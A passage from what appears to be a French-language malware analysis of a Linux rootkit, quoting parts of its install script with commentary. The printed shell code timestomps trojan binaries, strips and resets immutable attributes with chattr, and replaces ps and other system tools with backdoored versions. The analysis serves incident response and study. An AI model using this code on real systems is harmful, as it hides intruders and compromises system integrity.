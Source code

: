 Un `nm -D` lancé sur le binaire révèle qu'il n'utilise que des fonctions de base (`fopen`, `fgets`, `strncpy`, `memcpy` etc). Sans étude plus poussée impossible de dire quel algorithme est utilisé toutefois le fichier généré ne doit pas être du type périphérique ce qui rend sa présence dans `/dev` suspecte. C'est pour cela que les autres binaires cherchent à le cacher.

```bash
# time change bitch

touch -acmr /sbin/ifconfig ifconfig >/dev/null 2>&1
touch -acmr /bin/ps ps >/dev/null 2>&1
touch -acmr /usr/bin/md5sum md5sum >/dev/null 2>&1
md5sum="norocos@canadianbiotech.com"
```

C'est explicite : on recopie les dates des binaires originaux pour passer inaperçu. Je n'ai pas mis toutes les lignes. Cette fois il repasse sur le `md5sum`. On relève l'adresse email.

```bash
# Backdoor ps/top/du/ls/netstat/etc..
cd $BASEDIR/bin
BACKUP=/usr/lib/libsh/.backup
mkdir $BACKUP

# ps ...
if [ -f /usr/bin/ps ]; then
  chattr -isa /usr/bin/ps
  cp /usr/bin/ps $BACKUP
  mv -f ps /usr/bin/ps
  chattr +isa /usr/bin/ps
fi

# syslogd ...
# we won`t trojan it coz its too sensitive and won`t work.
# Admin will notice it upon system-restart!

#if [ -f /sbin/syslogd ]; then
#  chattr -isa /sbin/syslogd
#  cp /sbin/syslogd $BACKUP
#  mv -f syslogd /sbin/syslogd 
#  chattr +isa /sbin/syslogd
#fi
```

Les binaires sont écrasés et les dates originales conservées dans le déplacement avec l'option `-f` de `mv`. Le script conserve une copie des binaires originaux en cas de problème, et il peut y en avoir : architecture ou version de la libc incompatible... Comme le script ne fait aucune vérification ça peut très bien casser le système.  

Les backups pourraient toutefois s'avérer utiles à un administrateur qui veut corriger son système quoiqu'il est plus sûr de réinstaller le système complètement.

```bash
echo "${DCYN}[${WHI}sh${DCYN}]# : ps/ls/top/netstat/ifconfig/find/ and rest backdoored${RES}"
echo "${DCYN}[${WHI}sh${DCYN}]# ${RES}"
echo "${DCYN}[${WHI}sh${DCYN}]# [Installing some utils...] ${RES}"

cd $BASEDIR

#if [ ! -f /usr/bin/wget ]; then
#  touch -acmr /bin/ls ./bin/wget
#  chmod 744 ./bin/wget
#  mv ./bin/wget /usr/bin/wget
#fi

# PICO WILL MAKE RK GROW BIG!
# SO FUCK OFF AND USE vi !

```